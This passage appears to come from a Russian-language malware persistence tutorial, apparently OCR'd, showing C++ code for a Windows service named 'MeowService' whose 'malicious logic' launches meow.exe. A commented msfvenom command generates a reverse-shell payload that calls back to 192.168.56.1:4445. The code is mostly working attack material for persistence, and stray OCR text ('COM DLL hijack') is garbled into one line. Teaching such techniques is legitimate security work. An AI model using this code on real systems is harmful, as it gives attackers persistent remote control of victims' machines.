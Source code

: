```cpp
    default:
      break;COM DLL hijack
  }
  SetServiceStatus(hStatus,  &serviceStatus);
  return;
}
```

Я реализовал только поддержку запросов `SERVICE_CONTROL_STOP` и `SERVICE_CONTROL_SHUTDOWN`. Вы можете обрабатывать другие запросы, такие как `SERVICE_CONTROL_CONTINUE`, `SERVICE_CONTROL_INTERROGATE`, `SERVICE_CONTROL_PAUSE`, `SERVICE_CONTROL_SHUTDOWN` и другие.

Также создайте функцию с *вредоносной* логикой:

```cpp
// run process meow.exe - reverse shell
int RunMeow() {
  void * lb;
  BOOL rv;
  HANDLE th;

  // for example: 
  // msfvenom -p windows/x64/shell_reverse_tcp 
  // LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
  char cmd[] = "Z:\\2022-05-09-malware-pers-4\\meow.exe";
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));
  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, 
  NULL, &si, &pi);
  WaitForSingleObject(pi.hProcess, INFINITE);
  CloseHandle(pi.hProcess);
  return 0;
}

int main() {
  SERVICE_TABLE_ENTRY ServiceTable[] = {
    {"MeowService", 
    (LPSERVICE_MAIN_FUNCTION) ServiceMain},
    {NULL, NULL}
  };

  StartServiceCtrlDispatcher(ServiceTable);
  return 0;
}
```

Как я писал ранее, просто создадим наш процесс обратного shell (`meow.exe`):    
